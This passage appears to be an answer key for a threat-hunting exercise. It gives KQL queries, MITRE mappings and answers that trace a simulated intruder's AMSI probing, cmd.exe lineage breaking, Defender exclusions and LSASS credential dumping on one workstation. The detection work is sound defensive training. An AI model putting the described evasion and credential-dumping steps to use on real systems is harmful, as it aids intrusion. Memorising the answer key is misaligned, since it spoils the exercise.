```kql
DeviceNetworkEvents
| where TimeGenerated between (datetime(2025-12-13T09:48:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where ActionType == "ConnectionSuccess"
| where InitiatingProcessFileName == "powershell.exe"
| project TimeGenerated, RemoteUrl, RemoteIP, RemotePort
| order by TimeGenerated asc
```

**MITRE:** T1071.001 — Application Layer Protocol: Web Protocols  
**Answer:** `updates.health-cloud.cc`, `status.health-cloud.cc`



---

## Q20 — AMSI Probe Identification

**Hunt Lead:** "After outbound succeeded, the operator ran a plain (non-encoded) PowerShell script from their staging Bin directory. Name the script and explain what it's doing."

**Finding:** Filtering out `-EncodedCommand` leaves one script in the Bin directory. The filename directly signals its purpose — operators probe AMSI before running their main payload to confirm the environment won't detonate an alert.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-12-13T10:12:00Z) .. datetime(2025-12-13T18:00:00Z))
| where DeviceName == "azwks-phtg-01"
| where FileName == "powershell.exe"
| where ProcessCommandLine !contains "-EncodedCommand"
| where ProcessCommandLine contains "Bin"
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**MITRE:** T1562.001 — Impair Defenses: Disable or Modify Tools  
**Answer:** `AMSI_probe.ps1` — probes AMSI defenses to check if the environment is safe for payload execution.


---

## Q21 — Lineage Break Pattern

**Hunt Lead:** "On azwks-phtg-01, during the initial operator session after the anchor logon, cmd.exe was used twice as an intermediary to launch follow-on payloads. Identify both invocations and explain why an operator chains payloads through cmd.exe instead of running them directly."

**Finding:** Two `cmd.exe` invocations appear within the first hour after the anchor logon (09:48:40). Chaining through `cmd.exe` breaks the parent-process lineage so the true initiating process is obscured in telemetry.

**Key Query:**
```kql
DeviceProcessEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T09:48:40Z) .. datetime(2025-12-13T10:48:40Z))
| where FileName == "cmd.exe"
| where InitiatingProcessAccountName == "vmadminusername"
    or AccountName == "vmadminusername"
| where ProcessCommandLine !contains "whoami"
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**MITRE:** T1059.003 — Command and Scripting Interpreter: Windows Command Shell  
**Answer:** `cmd.exe` launched `hc_lineage.ps1` and `phtg_health_diag_update_FLAG-22.bat`, chaining through `cmd.exe` to obscure the true parent process lineage.



---

## Q22 — Defender Tampering

**Hunt Lead:** "The operator made Defender quieter after persistence landed. What did they exclude? List both objects — one's a path, one's a process."

**Finding:** `Add-MpPreference` was invoked twice via `PowerShellCommand` events. One exclusion targets the Cache staging directory; the other targets the masquerade binary directly — blinding Defender to both the files and the running process.

**Key Query:**
```kql
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T09:48:40Z) .. datetime(2025-12-13T18:00:00Z))
| where ActionType == "PowerShellCommand"
| where AdditionalFields contains "Add-MpPreference"
| project TimeGenerated, AdditionalFields
| order by TimeGenerated asc
```

**MITRE:** T1562.001 — Impair Defenses: Disable or Modify Tools  
**Answer:** `ExclusionPath C:\ProgramData\PHTG\HealthCloud\Cache` and `ExclusionProcess C:\ProgramData\PHTG\HealthCloud\PHTGHealthCloudSvc.exe`


---

## Q23 — Defender Detection Outcome

**Hunt Lead:** "Defender generated two AntivirusReport events on the PHTG HealthCloud.lnk artefact. Did it block the persistence? What does WasExecutingWhileDetected tell you about defensive posture?"

**Finding:** Two `AntivirusReport` events fired against `PHTG HealthCloud.lnk`. `WasExecutingWhileDetected: false` means Defender caught the artefact after it was already placed — it detected but did not block.

**Key Query:**
```kql
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T09:48:40Z) .. datetime(2025-12-13T18:00:00Z))
| where ActionType == "AntivirusReport"
| where FileName == "PHTG HealthCloud.lnk"
| project TimeGenerated, AdditionalFields
| order by TimeGenerated asc
```

**MITRE:** T1562.001  
**Answer:** Defender detected `PHTG HealthCloud.lnk` and generated two AntivirusReport events but did not block it — `WasExecutingWhileDetected: false` confirms the persistence was already in place when caught.



---

## Q24 — Temporary Defender Exclusion

**Hunt Lead:** "Inside _.ps1 itself the operator did something neat with Defender — applied an exclusion then removed it within seconds. Identify the path briefly excluded, prove the add-then-remove pattern, and explain why an operator does this."

**Finding:** Within the same minute as `_.ps1` execution, `Add-MpPreference` and `Remove-MpPreference` fired in close sequence against the user-profile PHTG path (not the HealthCloud workspace). The add-then-remove window is too short to attract sustained attention but long enough for the payload to drop without triggering a detection.

**Key Queries:**
```kql
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T10:11:00Z) .. datetime(2025-12-13T10:12:30Z))
| where ActionType == "PowerShellCommand"
| where AdditionalFields contains "MpPreference"
| project TimeGenerated, AdditionalFields
| order by TimeGenerated asc
```
```kql
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T10:11:00Z) .. datetime(2025-12-13T10:15:00Z))
| where ActionType == "PowerShellCommand"
| where AdditionalFields contains "Remove"
| project TimeGenerated, AdditionalFields
| order by TimeGenerated asc
```

**MITRE:** T1562.001 — Impair Defenses  
**Answer:** `C:\Users\vmAdminUsername\Documents\PHTG\` was briefly excluded via `Add-MpPreference` then immediately removed with `Remove-MpPreference`, allowing the payload to drop without Defender interference while avoiding a permanent exclusion that would attract attention.




---

## Q26 — Custom Event Log Source Purpose

**Hunt Lead:** "Q14 found the operator registered a custom Application event log source. What does registering this enable for the operator's tooling, and why does the operator want that?"

**Finding:** Registering an event source under `HKLM\...\EventLog\Application` allows any process to write to the Windows Application log under a custom source name. The Application log is treated as trusted telemetry by most defenders — operator activity sitting inside it draws far less scrutiny than events written to a custom or unknown log.

**MITRE:** T1112 — Modify Registry  
**Answer:** Registering a custom event log source enables writing to the Windows Application log, allowing the operator's tooling to blend in with legitimate application telemetry and avoid scrutiny.

---

## Q27 — LSASS Access Anomaly

**Hunt Lead:** "139 OpenProcessApiCall events target lsass.exe in the window. Most are baseline (MsMpEng, WmiPrvSE, SenseIR, system context). One isn't. Name the initiating process AND the account context that isn't system."

**Finding:** Filtering `InitiatingProcessAccountName` to exclude system, network service, and local service leaves one row — `powershell.exe` running under the operator's account. All 139 other events are expected baseline handles from security and management processes.

**Key Query:**
```kql
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T09:48:40Z) .. datetime(2025-12-13T18:00:00Z))
| where ActionType == "OpenProcessApiCall"
| where FileName == "lsass.exe"
| where InitiatingProcessAccountName != "system"
| where InitiatingProcessAccountName != "network service"
| where InitiatingProcessAccountName != "local service"
| project TimeGenerated, InitiatingProcessFileName, InitiatingProcessAccountName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**MITRE:** T1003.001 — OS Credential Dumping: LSASS Memory  
**Answer:** `vmadminusername`, `powershell.exe`


---

## Q28 — Access Right Escalation

**Hunt Lead:** "The anomalous LSASS access fired with two DesiredAccess values, one second apart. Decode both. Which one grants full access to the process, and why is the escalation between them significant?"

**Finding:** Two `OpenProcessApiCall` events against `lsass.exe` under `vmadminusername` appear one second apart. The first is a query handle; the second (`0x1FFFFF` = `2047999`) is `PROCESS_ALL_ACCESS` — granting every possible permission including memory read/write. The escalation from query to full access confirms the operator was not just enumerating but was preparing to read LSASS memory.

**Key Query:**
```kql
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T09:48:40Z) .. datetime(2025-12-13T18:00:00Z))
| where ActionType == "OpenProcessApiCall"
| where FileName == "lsass.exe"
| where InitiatingProcessAccountName == "vmadminusername"
| project TimeGenerated, AdditionalFields
| order by TimeGenerated asc
```

**MITRE:** T1003.001  
**Answer:** `2047999` (`0x1FFFFF` — `PROCESS_ALL_ACCESS`) grants full access; the escalation from query handle to full access is the signal that credential dumping was the intent, not just process inspection.


---

## Q29 — Credential Dump Confirmation

**Hunt Lead:** "Opening a full-access handle to LSASS isn't dumping yet. What's the next ActionType you'd expect if the operator actually read LSASS memory? Confirm it fired on phtg-01."

**Finding:** After the `OpenProcessApiCall` events, `ReadProcessMemoryApiCall` appears in `DeviceEvents` — confirming the operator didn't just open a handle but followed through and read LSASS memory. The credential dump is confirmed.

**Key Query:**
```kql
DeviceEvents
| where DeviceName == "azwks-phtg-01"
| where TimeGenerated between (datetime(2025-12-13T09:48:40Z) .. datetime(2025-12-13T18:00:00Z))
| where FileName == "lsass.exe"
| summarize count() by ActionType
```

**MITRE:** T1003.001 — OS Credential Dumping: LSASS Memory  
**Answer:** `ReadProcessMemoryApiCall`


